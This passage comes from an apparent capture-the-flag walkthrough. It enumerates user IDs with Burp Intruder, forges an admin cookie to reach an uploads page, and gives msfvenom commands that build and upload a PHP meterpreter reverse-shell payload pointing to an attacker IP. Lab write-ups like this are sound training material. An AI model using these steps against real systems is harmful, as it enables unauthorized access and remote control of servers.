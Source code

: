 	* We press Clear to remove the pre-populated payload positions, select the Id value (1), and click Add. Next, click on the Payloads tab.
	* We can generate a sequential list of 1-100 using a simple bash loop: ```for i in `seq 1 100`; do echo $i; done```. Paste the output into the Payloads box.
	* ID 30 shows that `super admin` is `86575`
		![Screenshot-20200503234934-870x635.png](images/614acba83c8243d8b7d19ab3c83d1bd1.png)
	* Go to `Uploads` page and change `Cookie: user=34322; role=admin` to `Cookie: user=86575; role=admin`
7. Use [msfvenom cheatsheet 1](https://netsec.ws/?p=331) to create payload:
	```
	msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.15.117 LPORT=24785 -f raw > shell.php
	cat shell.php | xclip -selection clipboard && echo '<?php ' | tr -d '\n' > shell.php && xclip -selection clipboard -o >> shell.php
	```
	Uploads directory found before by `dirbuster`: `/uploads/`. Upload the payload using the web portal.
	![Screenshot-20200504001507-546x213.png](images/88f06b7756964cea83c0c39117e82436.png)
	